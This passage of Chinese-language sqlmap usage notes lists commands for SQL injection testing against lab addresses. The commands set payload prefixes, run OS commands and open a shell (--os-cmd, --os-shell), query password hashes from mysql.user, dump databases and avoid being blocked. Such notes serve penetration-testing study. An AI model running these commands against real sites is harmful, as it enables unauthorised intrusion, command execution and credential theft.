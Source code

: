 19. 指定操作系统,绕过SQLMAP自动检测

        python sqlmap.py -u "http://192.168.1.121/sqlmap/pgsql/get_int.php?id=1" -v 2 --os "Windows"
        * Linux
        * Windows
        
20. 自定义payload

        Options: --prefix and --suffix
        python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/get_str_brackets.php?id=1" -v 3 -p "id" --prefix "'" --suffix "AND 'test'='test"

21. --os-xx系列命令，可以执行系统命令，同时还发现了牛逼的xpcmdshell

        ○ sqlmap -u http://192.168.159.1/news.php?id=1 --os-cmd=ipconfig
        ○ sqlmap -u http://192.168.159.1/news.php?id=1 --os-shell
        ○ --file-xx 牛逼的文件操作命令

22. sql query

        a. python sqlmap.py -u "http://192.168.1.121/sqlmap/pgsql/get_int.php?id=1" --sql-query "SELECT usename FROM pg_user" -v 0
        b. python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/get_int.php?id=1" --sql-query "SELECT host, password FROM mysql.user LIMIT 1, 3" -v 1

23. 选择sqlmap默认选项

        --batch 
        
23. 避免过多的错误请求被屏蔽

        参数：--safe-url,--safe-freq
        1、--safe-url：提供一个安全不错误的连接，每隔一段时间都会去访问一下。
	2、--safe-freq：提供一个安全不错误的连接，每次测试请求之后都会再访问一边安全连接。
	
	有的web应用程序会在你多次访问错误的请求时屏蔽掉你以后的所有请求，这样在sqlmap进行探测或者注入的时候可能造成错误请求而触发这个策略，导致以后无法进行。
        
        
99. 不那么常用的

        a. 只列出用户自己新建的数据库和表的内容
                python sqlmap.py -u "http://192.168.1.121/sqlmap/mssql/get_int.php?id=1" --dump-all --exclude-sysdbs -v 0
        b. 保存和恢复会话
                python sqlmap.py -u "http://192.168.1.121/sqlmap/pgsql/get_int.php?id=1" -b -v 1 -s "sqlmap.log"
        c. 保存选项到INC配置文件
                python sqlmap.py -u "http://192.168.1.121/sqlmap/pgsql/get_int.php?id=1" -b -v 1 --save
        d. 页面比较
                python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/get_int_refresh.php?id=1" --string "luther" -v 1
                python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/get_int_refresh.php?id=1" --regexp "<td>lu[\w][\w]er" -v
                (默认情况下sqlmap通过判断返回页面的不同来判断真假，但有时候这会产生误差，因为有的页面在每次刷新的时候都会
                返回不同的代码，比如页面当中包含一个动态的广告或者其他内容，这会导致sqlmap的误判。此时用户可以提供一个字符
                串或者一段正则匹配，在原始页面与真条件下的页面都存在的字符串，而错误页面中不存在（使用--string参数添加
                字符串，--regexp添加正则），同时用户可以提供一段字符串在原始页面与真条件下的页面都不存在的字符串，而错误页面
                中存在的字符串（--not-string添加）。用户也可以提供真与假条件返回的HTTP状态码不一样来注入，例如，响应200的
                时候为真，响应401的时候为假，可以添加参数--code=200。)
                